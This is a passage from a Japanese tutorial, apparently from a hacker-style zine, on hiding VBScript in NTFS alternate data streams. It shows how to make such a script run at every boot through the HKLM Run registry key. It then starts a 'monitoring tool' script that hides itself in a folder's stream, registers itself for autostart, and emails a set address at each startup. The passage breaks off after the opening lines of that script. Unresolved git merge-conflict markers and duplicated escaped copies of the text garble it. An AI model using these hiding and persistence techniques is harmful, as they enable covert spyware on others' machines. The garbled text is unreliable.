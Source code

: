　1行目でディレクトリを作り、2行目でVBScriptのファイルを代替ストリームと
して作成している。三行目でエンターキーを押すと、画面に"hello!"と書いたメ
ッセージボックスが表示されたはずだ。

　代替ストリームのファイルを、マシンの起動時に自動的に実行させることもで
きる。多くのマルウェアは、以下のようなレジストリに自分のファイル名やパス
を書き込んで、マシンが起動するたびに自動実行されるようにしている。

<<<<<<< HEAD
----
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\run\
----

　ためしに代替ストリームとして格納したVBScriptを指定してみよう。レジスト
リエディタを開き（ [スタートメニュー]->[ファイル名]を指定して実行] で、"
regedit"と入力）、上記のキーを探す。右側のウィンドウペインの中で右クリッ
クし、 [新規]->[文字列値] を選ぶ。任意の名前をつけ、データの部分に先ほど
=======
\-\-\-\-
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\run\
\-\-\-\-

　ためしに代替ストリームとして格納したVBScriptを指定してみよう。レジスト
リエディタを開き（ [スタートメニュー]\->[ファイル名]を指定して実行] で、"
regedit"と入力）、上記のキーを探す。右側のウィンドウペインの中で右クリッ
クし、 [新規]\->[文字列値] を選ぶ。任意の名前をつけ、データの部分に先ほど
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
VBSを格納した場所"c:\test\test2:s.vbs"を入力すれば完了だ。いったんログオ
フした後ログオンすれば、"hello!"のメッセージが表示されるはずだ。テストし
た後は、レジストリを元に戻すのをお忘れなく。


<<<<<<< HEAD
■0x04.) 監視ツールの作成
=======
### 0x04 監視ツールの作成
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　最後に今まで紹介したテクニックとVBScriptを使ってごく簡単な不可視（？）
監視ツールを作ってみようと思う。
　以下のVBSファイルをテスト用フォルダ内で実行すると、フォルダに潜伏（自身
をフォルダの代替ストリームとしてコピー）し、自動実行されるようレジストリ
に書き込む。次回から、マシンが起動するたびに、指定したメールアドレスへメ
ールを送信するようになる。

<<<<<<< HEAD
----
Set oFSO = WScript.CreateObject("Scripting.FileSystemObject")

'現在のボリュームがNTFSでなければ終了
Set oDrive = oFSO.GetDrive(oFSO.GetDriveName(WScript.ScriptFullName)) 
=======
\-\-\-\-
Set oFSO \= WScript.CreateObject("Scripting.FileSystemObject")
